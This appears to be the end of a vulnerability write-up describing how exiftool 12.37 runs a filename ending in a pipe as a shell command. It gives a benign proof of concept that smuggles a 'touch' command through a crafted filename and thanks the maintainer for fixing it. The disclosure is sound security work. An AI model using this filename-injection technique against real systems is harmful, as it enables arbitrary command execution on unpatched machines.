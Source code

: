 Unfortunately there is no check that the pipe to open comes from a trusted command like `gzip -dc "$file" |` in `GetImageInfo`. An attacker can pass a filename that ends with a pipe (`|`) to exiftool and if it exists on the filesystem, execute it as an operating system command. 

### Proof of Concept

```
$ ls pwn
ls: cannot access 'pwn': No such file or directory
$ touch 'touch pwn |'
$ ./exiftool 'touch pwn |'
ExifTool Version Number         : 12.37
File Name                       : touch pwn |
Directory                       : .
File Size                       : 0 bytes
File Modification Date/Time     : 2022:01:18 18:40:18-06:00
File Access Date/Time           : 2022:01:18 18:40:18-06:00
File Inode Change Date/Time     : 2022:01:18 18:40:18-06:00
File Permissions                : prw-------
Error                           : File is empty
$ ls pwn
pwn
```

## Final Thoughts 

Just wanted to say thanks to:

Phil Harvey for building and maintaining Exiftool and issuing a very quick fix

[Semchapeu](https://twitter.com/semchapeu) for the great challenge

b0bb, Steven, and the great community at [overthewire.org](overthewire.org)